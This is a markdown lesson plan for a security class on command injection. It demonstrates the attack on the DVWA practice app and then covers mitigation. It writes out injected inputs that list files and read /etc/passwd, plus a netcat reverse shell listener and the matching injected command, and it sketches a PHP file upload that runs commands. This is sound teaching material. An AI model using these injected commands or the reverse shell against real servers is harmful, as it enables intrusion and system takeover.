 # Command Injection

Command injection happens when an attacker can effectively force the web servers terminal interface to execute a command. Like all injection attacks, this happens when user input is used in an unsafe way. Command injection is a very severe vulnerability, and can almost always be used to gain a "reverse shell" giving the attacker significant access to the server.

## Objectives

* Describe command injection.
* Execute a command injection attack.
* Mitigate command injection.

## Lesson Plan

### What is Command Injection (5 minutes)

* This is just like the other injection attacks we've seen, but a different target.
* Instead of, say, running a SQL command we're trying to run a terminal command.
* Simple!

### Execute Command Injection on DVWA (5 minutes)

* Do a real IP address first, note that its running the ping command.
* It's just giving us the raw output, so cool.
* Simple linux trick, lets use a ;
* 127.0.0.1; ls -la
* 127.0.0.1; cat /etc/passwd


* Very common thing to do: get a "reverse shell"
  * Slightly harder in the real world, since your computer needs a public ip, deal with firewalls, and NAT
  * But still, all of this can often be overcome if you can do command injection.
  * Set a terminal listening with `nc -lvp 1337`
  * Send the command: `127.0.0.1; nc 127.0.0.1 1337 -e /bin/sh`
    * nc reaches out to the server we created.
    * -e says "send the input from that server to this program"
    * So after we connect, nc forwards our commands to the targets /bin/sh, executing our commands.
    * You can get a "full shell" with tab autocomplete and all the goodies after this, see:
      * https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2
  * Other useful commands to run if we find such a vulnerability: https://portswigger.net/web-security/os-command-injection


* Other vulnerabilities like file inclusion can lead to command injection. For Example:
  * User uploads a PHP file to a PHP server (like apache).
  * That PHP file contains the PHP code to execute a command.
  * Attacker now sends requests to the webpage they basically created!
  * :(

### Mitigate Command Injection (5 minutes)

* Don't make calls to the terminal from your web app.
  * JUST DON'T DO IT!
  * There is almost always another way to do whatever you want to do without invoking the OS in the application directly.
  * It is not worth the risk, if you need some functionality from the OS, find a way to mimic it in code.
* If you don't use user input, i.e. `run_command("ping 127.0.0.1")` you won't be vulnerable to command injection.
  * But you still might question why you need this functionality in the first place.
* Do not try to sanitize or validate user input to then pass into the command line, clever attackers can basically always break your validation code.
